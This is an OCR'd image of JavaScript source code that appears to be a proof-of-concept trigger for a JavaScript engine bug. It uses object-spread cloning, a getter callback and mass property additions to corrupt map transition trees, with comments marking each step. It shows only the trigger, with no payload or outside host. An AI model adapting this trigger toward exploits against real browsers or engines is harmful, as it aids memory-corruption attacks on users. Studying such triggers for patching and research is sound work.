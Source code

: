```
const value = 0x66;
const prefix = "p";
 
let source1 = {p0:0, p1:1, p2:2, p3:3, p4:4, p5:5, p6:6, p7:7, p8:8, p9:9, p10:10, p11:11, p12:12, p13:13, p14:14, p15:15, p16:16, p17:17, p18:18, p19:19, p20:20, p21:21, p22:22, p23:23, p24:24, p25:25, p26:26, p27:27, p28:28, p29:29, get p30(){ return callback();}}
 
const nums = 30
let source2 = {};
for (let i = 0; i < nums+1; i++) {
        eval(`source2.${prefix}${i} = ${i}`);
}
 
let source3 = {
        p0: 1,
        p1: 1,
        p2: 1,
        p3: 1.1,   // ===> construct deprecated_map 【1】
        get p4() { // ===> fill transition tree 【2】
                return 1;
        }
};
 
function cloneic_mega(src) {
        var obj = { ...src, __proto__: null };
        return obj;
}
 
function callback() {
//        print("[+] In callback");
        // construct dict map 【3】
        // p0 -> p1 -> p2 -> p3 -> p4
        //                              -> p__0
        //                              -> p__1
        //                              -> p__2
        //                              ......
        //                              -> p_1535
        const max = 1024 + 512;
        for (let i = 0; i < max; i++) {
                let tmp = cloneic_mega(source3);
                eval(`tmp.${prefix}__${i} = ${i}`);
        }
//        print("[+] Over callback");
//        readline();
        return value;
}
 
print("[+] GO");
cloneic_mega(source2);
cloneic_mega(source1);

```
